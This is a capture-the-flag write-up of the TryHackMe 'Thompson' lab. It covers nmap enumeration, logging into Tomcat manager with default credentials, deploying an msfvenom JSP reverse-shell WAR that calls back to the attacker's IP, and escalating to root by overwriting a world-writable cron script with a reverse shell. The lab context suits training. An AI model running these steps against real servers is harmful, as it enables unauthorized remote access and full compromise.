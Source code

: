 ```yaml
---
layout: post
title: PenLog - Thompson by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Thompson](https://tryhackme.com/room/bsidesgtthompson)

## Enumeration

Run `nmap` default port scan on target with TCP connect/version/script options:

```bash
$ nmap -vv -Pn -sT -sV -sC -r -n 10.10.58.198
```

This results in:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/nmap1.png)

Open the browser and navigate to target's open HTTP port 8080; confirm Tomcat version is v8.5.5 as per the `nmap` scan result:

![tomcat](/images/posts/penlog_thompson_by_tryhackme/tomcat.png)

Navigate to _/manager_ by clicking the "Manager App" button; click "Cancel" when prompted for a username and password.

Note the rendered error response mentions example credentials:
* **Username:** tomcat
* **Password:** :s3cret

![tomcat-error](/images/posts/penlog_thompson_by_tryhackme/tomcat_error.png)

Reattempt to authenticate to _/manager_ with the above-mentioned example credentials - **success**.

## User Shell

Generate a JSP payload in _.war_ format using `msfvenom`:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.4.9.232 LPORT=4444 -f war > shell.war
```
_(**Note**: You can list available payloads with `msfvenom --list payloads`; I use `grep` to filter the payloads on a needs basis.)_

Deploy the generated _shell.war_:

![tomcat-deploy](/images/posts/penlog_thompson_by_tryhackme/tomcat_deploy.png)

![tomcat-deployed](/images/posts/penlog_thompson_by_tryhackme/tomcat_deployed.png)

Start an `nc` lister on the port specified as _LPORT_ to the `msfvenom` command:

```bash
$ nc -vnlp 4444
```

Click the _/shell_ link in the deployed applications list (as shown above) -- the Tomcat server will execute the deployed JSP reverse shellcode generated using `msfvenom` -- to establish a low-privilege _user_ shell.

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user _flag.txt_:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/user_flag.png)

Notice the _id.sh_ file in the user home directory _/home/jack_; this script is owned by _jack_ but is world-writable - that is, the _tomcat_ user can change the script:

![id-script-perms](/images/posts/penlog_thompson_by_tryhackme/id_script_perms.png)

This script, when executed, writes out the _uid_ of the executing user to the file _test.txt_ in the same home directory:

![id-script-out](/images/posts/penlog_thompson_by_tryhackme/id_script_out.png)

Notice the current _test.txt_ reads `id` output for _root_; indicating the last user to execute the _id.sh_ script was _root_.

The system _/etc/crontab_ shows evidence of the _id.sh_ script running every minute as user _root_:

![crontab](/images/posts/penlog_thompson_by_tryhackme/crontab.png)

## Root Shell

Replace the _id.sh_ script with a bash reverse shell connection to attacking machine:

![id-script-new](/images/posts/penlog_thompson_by_tryhackme/id_script_new.png)

Start `nc` listener on the attacking machine, specifying the expected reverse shell port (4446 in this case):

```bash
$ nc -vnlp 4446
```

Wait for `cron` to execute _id.sh_ as root, establishing a reverse shell as _root_; get the root _flag.txt_:

![root-shell](/images/posts/penlog_thompson_by_tryhackme/root_shell.png)
